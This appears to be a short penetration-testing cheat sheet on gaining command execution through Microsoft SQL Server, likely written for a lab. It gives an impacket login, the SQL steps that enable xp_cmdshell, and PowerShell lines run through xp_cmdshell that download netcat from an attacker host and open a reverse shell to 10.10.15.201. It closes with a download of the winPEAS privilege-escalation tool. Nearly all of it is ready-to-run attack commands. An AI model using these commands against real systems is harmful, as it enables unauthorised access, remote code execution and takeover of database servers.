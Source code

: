 # MSSQL

Microsoft SQL Server (MSSQL) is a relational database management system (RDBMS) developed by Microsoft.

```console
cd /usr/share/doc/python3-impacket/examples
python mssql {DOMAIN}/{USERNAME}@{TARGET_IP} -windows-auth
```

## Commands
```console
# Check if the current user is sysadmin
SELECT IS_SRVROLEMEMBER('sysadmin');

# Enable advanced options
EXECUTE sp_configure 'show advanced options', 1;

# Apply the configuration
RECONFIGURE;

# Enable xp_cmdshell
EXECUTE sp_configure 'xp_cmdshell', 1;

# Apply the configuration
RECONFIGURE;

EXECUTE xp_cmdshell 'whoami'
```

## POWERSHELL
https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
https://github.com/int0x33/nc.exe/blob/master/nc64.exe

xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.15.201/nc64.exe -outfile nc64.exe"
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.15.201 443

## Tips
* Try -windows-auth to use Windows Authentication








wget http://10.10.15.201/winPEASx64.exe -outfile winPEASx64.exe